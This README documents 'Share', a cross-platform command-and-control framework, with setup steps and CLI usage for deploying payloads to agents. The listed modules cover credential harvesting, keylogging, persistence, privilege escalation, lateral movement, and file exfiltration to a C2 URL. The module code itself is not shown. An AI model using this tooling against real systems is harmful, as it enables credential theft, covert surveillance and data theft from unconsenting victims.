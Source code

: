 Share C2 Framework

Overview

Share is a Command and Control (C2) framework designed for post-exploitation activities, supporting multiple operating systems (Windows, Linux, macOS). It provides modules for credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, and lateral movement.

Features

Cross-platform payloads (Windows, Linux, macOS)

Modular structure for easy customization

Agent-based communication

Command-line interface (CLI) for management

Secure and encrypted C2 communication

Installation and Setup

1. Clone the Repository

git clone https://github.com/4lph4-01/share.git
cd share

2. Create a Virtual Environment

Linux/macOS:

python -m venv venv
source venv/bin/activate

Windows:

python -m venv venv
venv\Scripts\activate

3. Install Dependencies

pip install -r requirements.txt

4. Prepare Payloads (If necessary)

Ensure your payload scripts are in the payloads/ directory:

payloads/
  ├── macos_payload.sh
  ├── linux_payload.sh
  ├── windows_payload.ps1

Running the C2 Server

python c2_server.py

CLI Usage

List Agents

python cli.py list-agents

Deploy Payload

python cli.py deploy-payload <agent_type>

Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent

python cli.py select-agent

You can specify the agent ID directly or choose from a list of available agents.

Generate Report

python cli.py generate-report

Send a Specific Command

python cli.py send-command <agent_id>

Supported Commands

Command

Description

cred_harvest

Credential Harvesting

persistence

Persistence Mechanism

priv_escalation

Privilege Escalation

reconnaissance

Reconnaissance

exfiltrate <file_path> <c2_url>

Data Exfiltration (Replace with actual file path & C2 URL)

keylogging

Keylogging

lateral_movement

Lateral Movement

Example Usage:

python cli.py send-command <agent_id> cred_harvest

Modules Directory Structure

Ensure you have a modules/ directory structured as follows:

modules/
  ├── cred_harvest.py
  ├── persistence.py
  ├── priv_escalation.py
  ├── reconnaissance.py
  ├── exfiltration.py
  ├── keylogging.py
  ├── lateral_movement.py

Disclaimer

This tool is intended for ethical penetration testing and security research purposes only. Ensure you have explicit permission before deploying and using this framework. Unauthorized use may violate laws and regulations.

Developed by 4lph4-01.


